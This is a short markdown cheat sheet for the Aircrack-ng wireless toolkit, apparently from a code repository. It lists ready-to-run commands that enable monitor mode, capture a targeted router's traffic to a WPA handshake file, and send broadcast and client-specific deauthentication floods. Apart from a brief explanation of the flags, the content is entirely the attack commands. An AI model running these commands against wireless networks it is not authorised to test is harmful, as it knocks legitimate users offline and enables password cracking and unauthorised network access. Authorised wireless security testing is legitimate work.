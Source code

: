 # Aircrack Cheat Sheet

## start monitor

    airmon-ng start wlp1s0

## dump all

    airodump-ng wlp1s0mon

## dump specific to file

    airodump-ng -c 1 --bssid 84:9C:A6:28:62:DA -w HAIR_wpa wlp1s0mon --ignore-negative-one

    -c channel
    --bssid router
    -w filename
    --ignore-negative-one Removes 'fixed channel : -1' message

## deauth broadcast

    aireplay-ng --deauth 100 -a 84:9C:A6:28:62:DA wlp1s0mon --ignore-negative-one

## specific deauth

    aireplay-ng --deauth 100 -a 84:9C:A6:28:62:DA -c AA:BB:CC:DD:EE:FF wlp1s0mon --ignore-negative-one

